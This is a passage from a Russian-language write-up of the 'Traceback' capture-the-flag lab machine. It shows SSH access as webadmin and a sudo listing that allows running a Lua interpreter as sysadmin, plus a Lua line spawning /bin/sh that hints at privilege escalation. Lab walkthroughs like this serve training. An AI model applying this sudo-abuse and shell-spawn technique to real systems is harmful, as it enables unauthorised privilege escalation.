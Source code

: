 ```html
┌─[✗]─[root@parrot]─[~/.ssh]
└──╼ #ssh webadmin@10.10.10.181
The authenticity of host '10.10.10.181 (10.10.10.181)' can't be established.
ECDSA key fingerprint is SHA256:7PFVHQKwaybxzyT2EcuSpJvyQcAASWY9E/TlxoqxInU.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.181' (ECDSA) to the list of known hosts.
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################
Enter passphrase for key '/root/.ssh/id_rsa': 

Welcome to Xh4H land 

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Fri May  8 06:36:52 2020 from 10.10.14.10
webadmin@traceback:~$ id
uid=1000(webadmin) gid=1000(webadmin) groups=1000(webadmin),24(cdrom),30(dip),46(plugdev),111(lpadmin),112(sambashare)
```

>Создатель машины Xh4H не устает о себе напоминать, идем дальше:

```html
webadmin@traceback:~$ cat note.txt
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
```

>Проверим разрешения:

```html
webadmin@traceback:~$ sudo -l
Matching Defaults entries for webadmin on traceback:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on traceback:
    (sysadmin) NOPASSWD: /home/sysadmin/luvit
```

>В корневом каталоге юзера лежат файлы с расширением lua, языка программирования:

>И один из них явно намекает:

```html
webadmin@traceback:~$ cat chocho.lua 
os.execute("/bin/sh")
```

>Несложной командой совершаем горизонтальную эскалацию:
